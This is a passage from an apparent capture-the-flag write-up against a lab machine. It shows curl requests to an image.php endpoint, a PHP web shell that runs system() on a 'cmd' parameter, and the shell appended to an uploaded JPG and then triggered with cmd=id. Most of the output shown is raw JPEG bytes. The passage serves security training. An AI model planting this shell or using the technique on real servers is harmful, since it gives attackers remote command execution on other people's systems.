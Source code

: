 With this tool now we can test if we can run a script, i.e. php, as a jpg file. We curl the uploaded image and obtain this output:
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/e2dc2e11052902c146eda920fd456c95_black.jpg" --output -
JFIF   ( %!1!%)+...383-7(-.+


++++77-++++7++7+++++++++++++++++++++++++++++++++++"
                                                   ?D"(**
 
(**EE*

"(( 
*(
*
(( 
(*(*

**
TQP4Q@TAP@E
           T@P@ ( *( 
(
 
"
@TT@EQ@UT@TjT@P@UQAE@AQ@EEQAP@PP@@BPPXX@ 
-@@X@
(G%                    
```
As we can see, it returns the content of the file, without processing it, just reading, this looks a lot like a php injection vulnerability. So let's try to run the script:
```php
<?php 
if(isset($_GET['cmd']))
  {
    system($_GET['cmd']);
  }
?>
```
as an jpg file.

Success. After injecting the command at the end of the testing jpg file, we can access to it with an additional parameter, `cmd`.
```bash
❯ curl "http://10.10.11.135/image.php?img=images/uploads/456e3906b826586540c60ab73c3ba953_black.jpg&cmd=id" --output -
JFIF    ( %!1!%)+...383-7(-.+


++++77-++++7++7+++++++++++++++++++++++++++++++++++"
                                                   ?D"(**
 
(**EE*

"(( 
*(
*
(( 
(*(*

**
TQP4Q@TAP@E
           T@P@ ( *( 
(
 
```